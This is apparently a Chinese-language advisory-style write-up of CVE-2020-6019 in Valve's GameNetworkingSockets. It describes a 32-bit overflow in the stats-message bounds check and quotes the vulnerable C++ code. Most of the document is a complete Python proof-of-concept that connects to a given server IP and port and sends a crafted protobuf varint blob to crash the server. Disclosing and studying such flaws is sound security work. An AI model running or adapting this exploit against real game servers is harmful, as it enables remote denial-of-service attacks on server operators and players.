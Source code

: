 # CVE-2020-6019 Valve Game Networking Sockets 安全漏洞

Valvesoftware ValveSoftware GameNetworkingSockets是美国维尔福（Valvesoftware）公司的一个用于游戏传递数据的传输层支持软件。 Valves Game Networking Sockets v1.2.0之前版本存在安全漏洞，该漏洞源于在函数CConnectionTransportUDPBase：：Received Data()中不正确地处理内联统计消息，导致libprotobuf抛出异常并导致崩溃。

文件：steamnetworkingsockets\clientlib\steamnetworkingsockets_udp.cpp

函数：CConnectionTransportUDPBase::Received_Data()

连接协议支持作为传入消息头的一部分传输统计数据。

在准备解析protobuf编码的统计blob时，边界检查中有一个32位溢出：


```
pIn = DeserializeVarInt( pIn, pPktEnd, cbStatsMsgIn );
if ( pIn == NULL )
{
        ReportBadUDPPacketFromConnectionPeer( "DataPacket", "Failed to varint decode size of stats blob" );
        return;
}
// EI-DBG: Classic 32-bit overflow, and it turns out that CS:GO is 32bits (client & server).
// EI-DBG: Will lead to an error and raised exception in the ParseFromArray() method
if ( pIn + cbStatsMsgIn > pPktEnd )
{
        ReportBadUDPPacketFromConnectionPeer( "DataPacket", "stats message size doesn't make sense.  Stats message size %d, packet size %d", cbStatsMsgIn, cbPkt );
        return;
}

if ( !msgStats.ParseFromArray( pIn, cbStatsMsgIn ) )
{
        ReportBadUDPPacketFromConnectionPeer( "DataPacket", "protobuf failed to parse inline stats message" );
        return;
}
```

CVE_2020_6019_PoC_32_bits.py：



```python
#/usr/bin/python3

from elementals import Prompter
import logging
import sys
import socket
import struct

import steam_networking_sockets

####################
# Config Variables #
####################

VULNERABILITY_ID    = "CVE-2020-6019 - 32 bits"
VULNERABILITY_DESC  = "Exception raised when handling large 32-bit length field for incoming stats"

ENCRYPTION_TYPE     = True

####################
# Global Variables #
####################

logger = None

##
# Trigger the vulnerability
##
def startExploit(socket_fd):
    # build a protobuf blob to cause a 32-bit overflow
    blob  = bytes()
    # Varint for the stats length
    # Saw the protobuf raise the exception for it
    wanted_length = 2 ** 32 - 0x4
    while wanted_length > 0:
        next_value = wanted_length >> 7
        blob += struct.pack("B", (wanted_length & 0x7F) | (0x80 if next_value != 0 else 0x00))
        wanted_length = next_value

    # Unused length-delimited field to be "skipped" so to cause protobuf to complain about the negative size
    blob += struct.pack("B", (5 << 3) | 2) # field number (5) is unused, and 2 is the wire_type for length-delimited
    # Varint32 length for the "field"
    wanted_length = 0x100
    while wanted_length > 0:
        next_value = wanted_length >> 7
        blob += struct.pack("B", (wanted_length & 0x7F) | (0x80 if next_value != 0 else 0x00))
        wanted_length = next_value

    # we don't really need a message
    msg = bytes()
    steam_networking_sockets.connectionSend(socket_fd, msg, protobuf=blob)

##
# Prints the usage instructions
##
def printUsage(args):
    print(f"Usage: {args[0]} <server_ip> <server port>")
    print("Exiting")
    exit(1)

##
# Main function (example)
##
def main(args):
    global logger
    # Check the arguments
    if len(args) != 1 + 2:
        print(f"Wrong amount of arguments, got {len(args) - 1}, expected 2.")
        printUsage(args)

    # parse the args
    server_ip   = args[1]
    server_port = int(args[2])

    # open the log
    logger = Prompter(f"Exploit PoC - {VULNERABILITY_ID}", [("exploit_poc.log", "w", logging.DEBUG)], min_log_level=logging.DEBUG)
    logger.info("Starting the exploit PoC:")
    logger.addIndent()
    logger.info(VULNERABILITY_ID)
    logger.info(VULNERABILITY_DESC)
    logger.removeIndent()

    # create a Steam Sockets connection
    socket_fd = steam_networking_sockets.createSteamConnection(server_ip, server_port, ENCRYPTION_TYPE, logger)

    # start the attack
    startExploit(socket_fd)

    logger.info("Finished Successfully")

if __name__ == "__main__":
    main(sys.argv)
```

ref：

https://cpr-zero.checkpoint.com/vulns/cprid-2161/

https://www.anquanke.com/vul/id/2235460

https://forum.ywhack.com/thread-114798-1-3.html